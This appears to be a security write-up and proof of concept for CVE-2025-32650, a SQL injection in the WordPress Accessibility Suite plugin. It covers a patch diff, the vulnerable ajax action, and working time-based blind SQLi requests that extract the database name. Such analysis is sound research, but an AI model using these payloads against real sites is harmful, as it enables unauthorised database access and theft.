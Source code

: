 # CVE-2025-32650 Analysis & POC


---

The vulnerability occurs in the **Accessibility Suite** plugin for WordPress before version **4.19**.  
This allows an attacker to directly interact with the database, potentially stealing sensitive information.

- **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
- **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 4.18
- **CVSS Severity**: High (8.5)
- **Required Privilege**: Subscriber

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Accessibility Suite**:  v4.18 (vulnerable) and v4.19 (patched)
- **Diff tool**: **meld** or any other comparison tool to spot version differences

---

## Analysis
The plugin failed to properly typecast user input. Although it used `prepare()` to prevent SQLi, the implementation was **incorrect**, leaving the vulnerability exploitable.

### Patch Diff
Use any diff tool to compare the vulnerable and patched versions.  
A key difference appears in **includes/classes/Helper.php**.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
````

The patched version passes `$scan_id` as a parameter to the query instead of directly concatenating it.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```

![Patch Diff](patch_diff.png "Patch Diff")

### How it works

The vulnerability resides in the static function `save_false_positive` of class `Helper` in **includes/classes/Helper.php**.
To locate where it’s called, search for `save_false_positive` in the plugin directory.

![Search for save\_false\_positive](search_1.png "Search Function Call")

👉 The `save_false_positive` function is called as a **callback** by the action hook `wp_ajax_ONLINE_ADAv4/save_false_positive`.

When a **POST** request is sent to `/wp-admin/admin-ajax.php` with
`action=ONLINE_ADAv4/save_false_positive`, the callback is executed.
It requires two POST parameters: `issue_id` and `scan_id`.
If they’re missing, the app returns:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

The function checks if the user has admin privileges; if not, it returns an empty string.

```php
if(! is_admin()) {
    return '';
}
```

Then, the parameters are directly concatenated into the vulnerable SQL query.

---

## Exploit

### Detecting the SQLi

Send a **POST request** containing an SQLi payload.
Since it only requires an authenticated user with access to `/wp-admin/`, we can use a **subscriber** role — the lowest privilege in WordPress.
Higher roles inherit lower privileges, so this confirms the CVE’s description.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

The resulting SQL query becomes:

```sql
SELECT list FROM wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

![Time-based response](time_response.png "Time-based SQLi Response")

👉 The delayed response confirms that the SQLi payload works.

**Alternative techniques for empty tables:**

* **UNION** — works even when the base query returns no rows, but you must find the correct column count.
* **Subquery**:

  * **In WHERE clause:** MySQL may optimize it away if results are predictable.
  * **In FROM clause:** The subquery executes first to create a temporary table, ensuring the injected query runs.

![SQL Execution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png "SQL Execution Order Diagram")

---

### Extracting the First Letter of the Database Name

To fully dump data, we first confirm that SQLi allows reading at least **one character** from the database name.

Use this payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

The query uses `SUBSTRING()` to extract the first character of the database name.
If it equals `'w'` (`0x77` in hex), it triggers `SLEEP(5)`.

Since `scan_id` is escaped, hex encoding ensures payload integrity.

👉 Based on the delayed response — the first character **is indeed `w`**.

---

## Conclusion

The vulnerability **CVE-2025-32650** in the **Accessibility Suite** WordPress plugin (before version 4.19) stems from **improper use of `$wpdb->prepare()`**, leading to a SQL Injection.

The official patch correctly uses `$wpdb->prepare()`, ensuring safe handling of user input.

**Key takeaways:**

* Always use `$wpdb->prepare()` correctly when interacting with the WordPress database.
* Keep plugins updated and perform regular security audits to prevent exploitation.

---

## References

* [SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection](https://wordpress.org/plugins/online-accessibility/)

---

